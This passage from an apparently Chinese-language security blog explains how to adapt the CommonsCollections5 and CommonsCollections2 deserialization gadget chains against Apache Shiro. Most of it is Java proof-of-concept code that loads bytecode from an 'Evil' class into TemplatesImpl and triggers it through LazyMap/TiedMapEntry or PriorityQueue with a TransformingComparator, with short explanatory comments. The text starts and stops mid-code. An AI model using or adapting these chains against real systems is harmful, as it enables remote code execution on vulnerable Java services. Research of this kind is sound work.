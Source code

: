 ```java
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("toString", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, templatesImpl);

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        innerMap.clear();

        Reflection.setFieldValue(transformer, "iMethodName", "newTransformer");
        Serialization.test(expMap);
    }
}
```

![image-20221218220327977](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182203186.png)

后来发现 cc5 改一下也能够利用成功, 只是将入口点换成了 BadAttributeValueExpException, 其它部分完全相同, 就不单独写了

### CommonsCollections2 改造

cc2 是 commons-collections 4.0 中的利用链, 改造的思路差不多

TransformingComparator 会将被比较的对象传入 transform 方法

![image-20221218220601632](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182206679.png)

类似的, 往 PriorityQueue 中放入 TemplatesImpl 即可

```java
package com.example.CommonsCollections;

import com.example.Reflection;
import com.example.Serialization;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import java.util.Arrays;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CommonsCollections2Shiro {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

```